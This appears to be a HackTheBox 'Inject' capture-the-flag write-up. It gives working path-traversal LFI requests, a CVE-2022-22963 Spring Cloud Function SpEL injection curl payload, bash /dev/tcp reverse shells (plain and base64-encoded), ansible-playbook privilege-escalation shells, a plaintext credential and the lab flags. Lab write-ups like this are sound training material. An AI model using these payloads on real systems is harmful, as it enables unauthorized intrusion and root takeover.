




## Reconnaissance

### nmap 

- SSH Service 
- Port 8080, HTTP service 
- Nagios NSCA 

### Web Service 

- Visit the web service


- There is a upload function
- It only accept image file
- I tried to bypass it, but failed


- Click 'View your Image'
- It will direct to ```/show_image``` with parameter ```img```


- Above part have 2 possible vulneraility
    1. Upload function to upload a reverse shell --> failed
    2. LFI on img parameter

- The second one will work 
- Intercept the ```show_image``` request 
- Using the folloing payload, it will response expected content(```/etc/passwd```)
```
/show_image?img=//..//..//..//..//..//..//etc//passwd
```


- Check the host information(```/etc/os-release```)
```
/show_image?img=//..//..//..//..//..//..//etc//os-release
```


- Check crontab
```
/show_image?img=//..//..//..//..//..//..//etc//crontab
```


- Check home directory
```
/show_image?img=//..//..//..//..//..//..//home
```


- Check frank directory
```
/show_image?img=//..//..//..//..//..//..//home//frank
```


- Check user flag in phil directory
```
/show_image?img=//..//..//..//..//..//..//home//phil//user.txt
```
- Response nothing, it might caused by permission denied


- Check the web directory
```
/show_image?img=//..//..//..//..//..//..//var//www//WebApp//
```


- Check framework and library(```pom.xml```)
```
/show_image?img=//..//..//..//..//..//..//var//www//WebApp//pom.xml
```
- Find spring boot 2.6.5


- Find spring cloud function 3.2.2


### Research for spring boot 2.6.5

- Find Spring4Shell Vulnerability
- CVE Number: CVE-2022-22965
- DEscription

> A Spring MVC or Spring WebFlux application running on JDK 9+ may be vulnerable to remote code execution (RCE) via data binding. The specific exploit requires the application to run on Tomcat as a WAR deployment. If the application is deployed as a Spring Boot executable jar, i.e. the default, it is not vulnerable to the exploit. However, the nature of the vulnerability is more general, and there may be other ways to exploit it.

> 遠端主機上的 Spring Framework 程式庫版本為 5.2.20 之前的版本或 5.3.18 之前的 5.3.x。因此，該主機受到遠端程式碼執行弱點影響：
> 透過資料系結，JDK 9+ 上執行的 Spring MVC 或 Spring WebFlux 應用程式可能很容易受到遠端程式碼執行 (RCE) 弱點影響。特定的惡意利用需要應用程式在 Tomcat 上作為 WAR 部署執行。如果應用程式部署為 Spring Boot 可執行檔 jar (即預設值)，則不會受此弱點影響。不過，這個弱點更具普遍性，可能還有其他利用方式。

### Research for spring cloud function 3.2.2

- Find Remote code execution in Spring Cloud Function by malicious Spring Expression
- CVE Number: CVE-2022-22963
- Description: 

> Spring Cloud Function is a serverless framework for implementing business logic via functions.

> In Spring Cloud Function versions 3.1.6, 3.2.2 and older unsupported versions, when using routing functionality it is possible for a user to provide a specially crafted SpEL as a routing-expression that may result in remote code execution and access to local resources. Users of affected versions should upgrade to 3.1.7, 3.2.3. No other steps are necessary.


> 该漏洞是由RoutingFunction功能导致。在Spring Cloud Function中RoutingFunction类的apply方法将请求头中的“spring.cloud.function.routing-expression”参数作为Spel表达式进行处理，造成了Spel表达式注入漏洞。


## Exploit 

- According to above research, CVE-2022-22963 might be the critria point.
- Using this payload
```
curl -X POST  http://0.0.0.0:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned222")' --data-raw 'data' -v
```


- Check the tmp directory in victim, the pwned222 file exist.


- And according to the other payload, it's also can execute the command by sh file


- So I write the python reverse shell code into ```test.sh```


- then upload it(by wget) and execute it from victim host.
- Execute
```
curl -X POST  http://0.0.0.0:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("/tmp/test.sh")' --data-raw 'data' -v
```

- The nc listener will get connection.
#### Another way to get shell
- Shell command 
```
bash -i >& /dev/tcp/10.10.16.27/1337 0>&1
```
- Using base64 to encode the shell command  


- Change the payload to following
```
bash -c {echo, YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yNy8xMzM3IDA+JjE=}|{base64,-d}|{bash,-i}
```


- Check the nc listener, it will get connection
- The user will be frank

### Phil Credential

- Since the frank doesn't have permission to read flag in phil's directroy


- So, the next step is escalate the privilege to phil.
- Find the file in frank's directory


- There is a hidden file call ```settings.xml```


- phil credential in ```settings.xml```

``` phil / DocPhillovestoInject123``` 


- But I failed to ssh login with phil


- So I directly login to phil by ``` su ``` commadn


- Get user flag:
``` b8297e423af73eaef25c34999f597e25 ```


## Post Exploitation 

- Now, I have to escalate to root permission.
- Upload the following 2 files
    1. pspy64s
    2. linpeas.sh
- Execute linux eumeration tools (```linpeas.sh```)
- Here is interesting result
1. something in the ```/opt```, this directory should empty


2. Privilege-Escaltion Writable-files
(```/opt/automation/tasks```)


3. ```/opt/automation/tasks/playbook_1.yml```


- pspy64s result
- It also has record related to playbook_1.yml
- The ansible-playbook will execute with this yaml file under ```/opt ```directory
- There is task will remove the yaml file under ```/opt``` regularly.


- According to research about privilege escalation by ansible.
- [GTFObins](https://gtfobins.github.io/gtfobins/ansible-playbook/) has the following payload can try:
- It can be used to break out from restricted environments by spawning an interactive system shell.

```
TF=$(mktemp)
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
ansible-playbook $TF
```
or 
 
- If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access. 
```
TF=$(mktemp)
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
sudo ansible-playbook $TF
```


- I tried above payload step, but it failed.
- Then I find this [article(Ansible Playbook Privilege Escalation)](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/)
- The following part give me an idea


### Privilege Escalation 
- So I follow the step to set up a new yaml(```evil.yml```)


- Create a reverse shell in ```/tmp``` directory(```root.sh```)


- Wait for a minute
- The pspy64s result will show that ```evil.yml ``` be execute.


- Then the command in ```evil.yml ``` is executed, too.


- Then check nc listener, it get root shell


- root flag: ``` 153df47dfee69cce9fe0b8c89202adb1 ```


## Reference 

- [(Discussion)Inject](https://forum.hackthebox.com/t/official-inject-discussion/274274/157)

### LFI

- [(HackTrick)LFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

### Spring Related Vulnerabilities

- [爆肝！！包含复现流程、部分exp、poc和编码小脚本的11个Spring漏洞复现合集](https://zhuanlan.zhihu.com/p/548317500)
- [Spring4Shell, Spring Cloud Function RCE and Spring Cloud Gateway Code Injection](https://avleonov.com/2022/04/03/spring4shell-spring-cloud-function-rce-and-spring-cloud-gateway-code-injection/)

### Spring Cloud Function RCE
- [Spring Cloud Function远程代码执行漏洞分析( CVE-2022-22963)](https://www.freebuf.com/vuls/335925.html)
- [(GITHUB)CVE-2022-22963 Exploit Demo](https://github.com/me2nuk/CVE-2022-22963)
- [(GITHUB)CVE-2022-22963: Spring4Shell RCE Exploit](https://github.com/lemmyz4n3771/CVE-2022-22963-PoC)
- [CVE-2022-22963 代码远程执行漏洞复现](https://www.freebuf.com/vuls/344989.html)

### Spring4Shell
- [Spring4Shell: The zero-day RCE in the Spring Framework explained](https://snyk.io/blog/spring4shell-zero-day-rce-spring-framework-explained/)
- [Spring4Shell(CVE-2022-22965)](https://github.com/me2nuk/CVE-2022-22965)
- [Spring4Shell-POC (CVE-2022-22965)](https://github.com/BobTheShoplifter/Spring4Shell-POC)
- [NVD CVE-2022-22965 Detail](https://nvd.nist.gov/vuln/detail/cve-2022-22965)
- [Spring Framework Spring4Shell (CVE-2022-22965)](https://zh-tw.tenable.com/plugins/nessus/159542)
- [CVE-2022-22965：分析 Mirai 殭屍網路惡意程式的 Spring4Shell 漏洞攻擊手法](https://blog.trendmicro.com.tw/?p=72067)

### Other tools
- [Reverse Shell Generator](https://www.revshells.com/)
- [Linux sed 字串取代用法與範例](https://shengyu7697.github.io/linux-sed/)


### Ansible Privilege Escalation

- [(GTFObins)ansible-playbook](https://gtfobins.github.io/gtfobins/ansible-playbook/)
- [Ansible Playbook Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/)

###### tags: `HackTheBox` `linux` `Easy` `LFI` `Spring` `Spring Cloud Function RCE` `Spring Cloud Function` `Ansible` `Ansible-Playbook` `Ansible-Playbook Privilege Escalation` `Further Research: Spring Related Vulnerabilies` Further Research: Spring4Shell`